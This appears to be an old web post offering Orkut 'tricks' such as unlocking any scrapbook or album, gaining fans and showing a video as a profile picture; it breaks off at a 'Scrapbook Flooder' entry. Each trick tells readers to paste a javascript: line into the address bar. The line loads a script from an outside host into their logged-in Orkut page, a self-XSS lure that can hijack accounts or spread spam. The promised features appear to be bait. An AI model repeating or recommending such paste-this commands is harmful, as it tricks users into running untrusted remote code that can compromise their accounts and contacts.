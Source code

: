 **Unlock Any Scrapbook  
**

Just open orkut page and copy this script in URL bar.

Code: Select all

javascript:d=document;c=d.createElement(‘script’);d.body.appendChild(c);c.src=’http://freetze.freetzi.com/scrapbook.js’;void(0)

Hit enter.

It unlocks all scrapbooks automatically.

**Unlock Any Album  
**

Just open orkut page and copy this script in URL bar.

Code: Select all

javascript:d=document;c=d.createElement(‘script’);d.body.appendChild(c);c.src=’http://freetze.freetzi.com/album.js’;void(0)

Hit enter.

It unlocks all albums automatically.

**Increase your fans  
**

Just open orkut page and copy this script in URL bar.

Code: Select all

javascript:d=document;c=d.createElement(‘script’);d.body.appendChild(c);c.src=’http://freetze.freetzi.com/fans.js’;void(0)

Hit enter.

It increase your fans within minutes.

**Show Video Instead Of Profile Picture  
**

Just open orkut page and copy this script in URL bar.

Code: Select all

javascript:d=document;c=d.createElement(‘script’);d.body.appendChild(c);c.src=’http://freetze.freetzi.com/video.js’;void(0)

Hit enter.

It replaces video with your profile picture.

**Scrapbook Flooder  
**

Open scrapbook.

Write something in the text box.
